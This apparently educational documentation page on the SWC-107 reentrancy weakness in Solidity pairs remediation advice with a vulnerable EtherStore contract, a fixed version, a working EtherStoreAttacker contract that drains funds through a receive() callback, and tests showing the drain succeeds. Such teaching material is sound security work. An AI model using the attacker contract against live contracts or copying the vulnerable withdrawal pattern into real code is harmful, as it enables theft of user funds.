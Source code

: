 107-Reentrancy
==============

Adapted From
`SWC 107 <https://swcregistry.io/docs/SWC-107>`_.

Description
-----------

A contract may call another contract. This hands over control flow to
the callee. The external contract can then take over control flow to
call back into the calling contract before the first invocation of
the function is finished. This may cause the different invocations
of the function to interact in undesirable ways.

Remediation
-----------

The best practices to avoid Reentrancy weaknesses are:

- Make sure all internal state changes are performed before the call
  is executed. This is known as the Checks-Effects-Interactions pattern.
- Use a reentrancy lock (i.e. OpenZeppelin's
  `ReentrancyGuard <https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/ReentrancyGuard.sol>`_)

Examples
--------

EtherStore
^^^^^^^^^^^^^^^^

.. code-block:: solidity
   :linenos:
   :emphasize-lines: 14,16,34,35
   
   contract EtherStore {
       uint256 public withdrawalLimit = 1 ether;
       mapping(address => uint256) public lastWithdrawTime;
       mapping(address => uint256) public balances;
       
       function depositFunds() public payable {
           balances[msg.sender] += msg.value;
       }
       
       function withdrawFunds(uint256 _weiToWithdraw) public {
           require(balances[msg.sender] >= _weiToWithdraw, "Insufficient Balance");
           require(_weiToWithdraw <= withdrawalLimit, "Over Withdrawal Limit");
           require(block.timestamp >= lastWithdrawTime[msg.sender] + 1 weeks, "Withdraw too soon after last");
           (bool success, bytes memory returnData) = msg.sender.call{ value: _weiToWithdraw }("");
           require(success, "Call Failed");
           balances[msg.sender] -= _weiToWithdraw;
           lastWithdrawTime[msg.sender] = block.timestamp;
       }
   }
   
   contract EtherStoreFixed {
       uint256 public withdrawalLimit = 1 ether;
       mapping(address => uint256) public lastWithdrawTime;
       mapping(address => uint256) public balances;
       
       function depositFunds() public payable {
           balances[msg.sender] += msg.value;
       }
       
       function withdrawFunds(uint256 _weiToWithdraw) public {
           require(balances[msg.sender] >= _weiToWithdraw, "Insufficient Balance");
           require(_weiToWithdraw <= withdrawalLimit, "Over Withdrawal Limit");
           require(block.timestamp >= lastWithdrawTime[msg.sender] + 1 weeks, "Withdraw too soon after last");
           balances[msg.sender] -= _weiToWithdraw;
           (bool success, bytes memory returnData) = msg.sender.call{ value: _weiToWithdraw }("");
           require(success, "Call Failed");
           lastWithdrawTime[msg.sender] = block.timestamp;
       }
   }
   
   contract EtherStoreAttacker {
       EtherStore public etherStore;
       
       constructor(address etherStoreAddress) {
           etherStore = EtherStore(etherStoreAddress);
       }
       
       function attackEtherStore() public payable {
           require(msg.value >= 1 ether, "Insufficient ether provided");
           etherStore.depositFunds{ value: 1 ether }();
           etherStore.withdrawFunds(1 ether);
       }
       
       function collectEther() public {
           msg.sender.transfer(address(this).balance);
       }
       
       receive () external payable {
           if(address(etherStore).balance >= 1 ether){
               etherStore.withdrawFunds(1 ether);
           }
       }
   }


Contract Interfaces
-------------------

EtherStore
^^^^^^^^^^^^^^^^

.. autosolcontract:: EtherStore
   :members:
   :undoc-members:

.. autosolcontract:: EtherStoreAttacker
   :members:
   :undoc-members:

.. autosolcontract:: EtherStoreFixed
   :members:
   :undoc-members:

.. autosolcontract:: EtherStoreFixedAttacker
   :members:
   :undoc-members:

Tests
-----

EtherStore
^^^^^^^^^^

.. code-block:: javascript
   :linenos:

   it(
      "vulnerable to reentrancy attack",
      async function(){
         let etherStore = await EtherStore.new({ from: funder });
         let etherStoreAttacker = await EtherStoreAttacker.new(etherStore.address, { from: attacker });
            
         await etherStore.depositFunds({ from: funder, value: ether("1") });
         await etherStore.depositFunds({ from: user1, value: ether("1") });
         await etherStore.depositFunds({ from: user2, value: ether("1") });
         await etherStore.depositFunds({ from: attacker, value: ether("1") });
            
         let initEtherStoreBalance = await getBal(etherStore.address);
            
         await etherStoreAttacker.attackEtherStore({ from: attacker, value: ether("1") });
            
         let finalEtherStoreBalance = await getBal(etherStore.address);
         let etherStoreAttackerBalance = await getBal(etherStoreAttacker.address);
            
         expect(finalEtherStoreBalance).to.be.bignumber.equal(new BN("0"));
         expect(etherStoreAttackerBalance).to.be.bignumber.equal(initEtherStoreBalance.add(ether("1")));
            
      }
   );

EtherStoreFixed
^^^^^^^^^^^^^^^
   
.. code-block:: javascript
   :linenos:

   it(
      "not vulnerable to reentrancy attack",
      async function(){
         let etherStore = await EtherStoreFixed.new({ from: funder });
         let etherStoreAttacker = await EtherStoreFixedAttacker.new(etherStore.address, { from: attacker });
               
         await etherStore.depositFunds({ from: funder, value: ether("1") });
         await etherStore.depositFunds({ from: user1, value: ether("1") });
         await etherStore.depositFunds({ from: user2, value: ether("1") });
         await etherStore.depositFunds({ from: attacker, value: ether("1") });
               
         let initEtherStoreBalance = await getBal(etherStore.address);
               
         await expectRevert(
            etherStoreAttacker.attackEtherStore({ from: attacker, value: ether("1") }),
            "Call Failed"
         );
      }
   );
